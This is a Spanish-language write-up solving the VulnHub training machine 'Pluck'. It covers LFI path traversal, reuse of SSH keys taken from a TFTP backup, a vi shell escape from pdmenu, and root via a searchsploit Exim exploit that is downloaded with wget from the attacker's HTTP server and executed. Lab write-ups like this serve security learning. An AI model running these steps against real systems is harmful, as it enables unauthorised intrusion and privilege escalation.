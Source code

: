 # Pluck

Hoy vamos a resolver la maquina Pluck, donde estaremos tocando conceptos de explotación a través de LFI, así como escalada de privilegios a través de un script basico en bash.

Plataforma/Source: VulnHub

Dificultad: Beginner

Meta: Obtener un shell root, es decir (root@localhost:~#) y luego obtener la bandera en /root

Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa, tuve problemas con herramientas como arp-scan o netdiscover, así que me cree un script para escanear mi red local:

También he decidido añadir una resolución DNS local con el siguiente comando:
***
- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa. Esta maquina ya te muestra la IP al momento de arrancar el sistema, pero igual prefiero utilizar mi  [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local y asegurarme que todo vaya en orden.

- Añadimos una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, con los siguientes parámetros:
~~~ bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV pluck.vh
~~~
- Vemos que hay cuatro servicios activos, entre los cuales parecen encontrarse ssh, http, mysql y mDNS:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/99846ec6-826e-47cf-8d53-bb9066cefb45)

- La pagina web tramita sus solicitudes a través del campo de la URL, indicando que pagina visita de esta forma:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/290e1d40-4137-457b-83dd-ac492c76933d)

  - Esto puede derivar a una LFI si nos permite apuntar a recursos fuera de la carpeta anterior, indicando con `../` que queremos movernos hacia atrás:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bdbdd0d1-f04c-49f4-ac18-085911e06113)

  - Hasta abajo, observamos que hay una ruta absoluta a lo que parece ser un script para backups, por lo que podremos echar un vistazo a su contenido:
    ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/56541255-1260-4c2d-bf80-355e130bc8be)
   
- Parece ejecutar una serie de comandos, pero eso no importa mucho. Vemos que nos dice que podemos obtener el recurso via `tFTP`, el cual es un protocolo upd parecido a FTP. Nos conectamos y obtenemos el recurso.
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/64820d2b-c213-4028-af1c-ac36328d1927)

- Podemos analizarlo si lo descomprimimos con:
~~~bash
7z x backup.tar
~~~

- Son varias carpetas, pero en una podemos ver pares de llaves, posiblemente pares de llaves publicas y privadas de ssh.
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/48b21c4b-aa42-4a57-b480-897cad7fa0c2)

- Si listamos los contenidos, parecen cambiar en que algunas utilizan DSS y otras RSA para cifrarlas, en este punto probé todas las claves publicas hasta que alguna resultara valida, pues todas son del usuario Paul

~~~ bash
ssh paul@pluck.vh -i <pub_key>
~~~

- En este caso, si disponemos de la clave privada correcta alojada en el servidor victima, no nos debería pedir proporcionar una contraseña:
- Finalmente con una de las llaves podemos acceder, pero este usuario no poseé una bash, sino algo llamado pdmenu:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/19a4dcc7-277f-4668-8a3e-d13529a1f0cb)

- Tenemos un modulo para editar archivos, y este utiliza vi. Según [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) existe una manera para hacer que este binario nos lance una bash.
- Nos metemos a cualquier archivo para editar, ya sea /etc/passwd y presionamos SHIFT+: para insertar las siguientes variables
~~~bash
:set shell=/bin/sh
:shell
~~~

***

<h3>PrivEsc</h3>
- Ya con completa libertad de movilidad, empecemos con listar los permisos SUID.
~~~ bash
find / -perm -4000 2>/dev/null
~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/9b43745d-98cc-46a7-992a-1f9e29641298)

- Vemos un binario `exim`, el cual es empleado para servicios de correo en equipos Unix
	- Exim: https://www.exim.org/
- Nos deja ver la versión, así que podríamos intentar ver si existe algún exploit conocido en searchsploit, así que lo movemos y pasamos a la maquina victima:

- Maquina local:
  ~~~bash
  searchsploit -m linux/local/39535.sh
  python3 -m http.server 9999
  wget 192.168.17.128:9999/39535.sh
  mv 39535.sh exploit.sh
  chmod +x exploit.sh
  ./exploit.sh
  ~~~
- Y con esto ya seriamos root :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aabef773-920f-4f7b-ad63-5785a4f81be1)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ae56085a-d6a3-4b3e-b1f9-28142195dff0)


